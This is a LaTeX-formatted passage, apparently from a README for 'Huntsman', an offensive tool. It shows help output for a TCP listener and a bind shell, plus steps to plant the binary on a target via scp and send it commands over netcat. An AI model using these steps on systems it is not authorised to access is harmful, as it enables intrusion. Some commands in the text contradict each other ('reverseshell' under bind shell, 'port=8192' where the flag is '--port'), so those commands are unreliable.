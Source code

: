 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
huntsman listen --help

Listen to incoming TCP requests on a port

Usage:
  huntsman listen [flags]

Flags:
  -h, --help          help for listen
      --port string   Port at which listener should run 
      (default "8192")
\end{verbatim}
An example command to turn Huntsman into a TCP listener is:\\
\verb|huntsman listen port=8192| \\	
\textit{NOTE: Don't forget to open the port on which you intend to run the listener, otherwise the client won't be able to connect to it.}

\subsection{Bind shell}
Bind shells have the listener running on the target and the attacker connect to the listener in order to gain a remote shell.\\
For using this funtionality, first you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using \verb|./<binary-name> reverseshell --port <port-number>|. Now the listener is
running to which you will be sending instructions to execute.   

We will be using \textbf{netcat} as the client for 
sending the commands over the network.  
\verb|nc <address-of-target> <port-number>|

\begin{verbatim}
huntsman bindshell --help 

This server listens for command over the internet and executes it
	in local shell

Usage:
  huntsman bindshell [flags]

Flags:
  -h, --help          help for bindshell
      --port string
                      	The port on which this bind shell listen 
			for coommands
                      	 (default "13337")s				
\end{verbatim}

Youtube link for the \href{https://youtu.be/eE0k0GVZXyc}{video demonstration of the working of the bind shell}\\
\textit{NOTE: I've used the term reverse shell for bind shell in the video, which is wrong, in reverse shell the victim machine connects with the client for taking commands}
\end{document}
